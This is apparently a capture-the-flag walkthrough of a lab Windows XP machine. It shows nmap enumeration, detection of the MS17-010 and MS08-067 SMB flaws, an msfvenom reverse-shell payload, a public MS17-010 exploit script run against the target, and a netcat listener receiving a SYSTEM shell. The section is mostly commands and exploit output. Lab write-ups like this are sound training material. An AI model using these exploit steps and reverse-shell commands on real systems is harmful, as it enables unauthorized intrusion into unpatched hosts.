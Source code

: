 # IP Address: 10.10.10.4

# Enumeration.1
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -sV -Pn -p- -T 4 10.10.10.4
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-10 19:00 EST

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
```

Server is running Windows XP which is known to serve a vulnerable version of SMB by default. 

Vulnerability scan the SMB service with nmap scripts.
```
┌──(code㉿kali)-[~]
└─$ sudo nmap -Pn --script=smb-vuln-* -p 139,445 10.10.10.4 -v                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 11:41 EST
NSE: Loaded 11 scripts for scanning.

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.

Nmap done: 1 IP address (1 host up) scanned in 12.20 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)

```

Check for exploits for ms17-010 and MS08-067. Found this exploit repository https://github.com/helviojunior/MS17-010

# Exploitation
Clone repository and generate the reverse shell executable.
```
┌──(code㉿kali)-[~]
└─$ git clone https://github.com/helviojunior/MS17-010.git
Cloning into 'MS17-010'...
remote: Enumerating objects: 202, done.
remote: Total 202 (delta 0), reused 0 (delta 0), pack-reused 202
Receiving objects: 100% (202/202), 118.50 KiB | 763.00 KiB/s, done.
Resolving deltas: 100% (115/115), done.

┌──(code㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe > reverse.exe                                               
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

┌──(code㉿kali)-[~]
└─$ cd MS17-010/   

┌──(code㉿kali)-[~/MS17-010]
└─$ python send_and_execute.py 10.10.10.4 ../reverse.exe 445 browser                                                                          
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8209e3f8
SESSION: 0xe218d4f0
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe22b7878
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe22b7918
overwriting token UserAndGroups
Sending file BXLPM2.exe...
Opening SVCManager on 10.10.10.4.....
Creating service ukeA.....
Starting service ukeA.....
The NETBIOS connection with the remote host timed out.
Removing service ukeA.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

On netcat listener:
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>set
set
ALLUSERSPROFILE=C:\Documents and Settings\All Users
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=LEGACY
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Path=C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 23 Model 1 Stepping 2, AuthenticAMD
PROCESSOR_LEVEL=23
PROCESSOR_REVISION=0102
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\WINDOWS\TEMP
TMP=C:\WINDOWS\TEMP
USERPROFILE=C:\Documents and Settings\LocalService
windir=C:\WINDOWS
```

Based on the USERPROFILE environment variable, it looks like we have system-level access.

# Proof

Find user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Legacy/images/Pasted%20image%2020211111124708.png)

Find root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Legacy/images/Pasted%20image%2020211111124918.png)
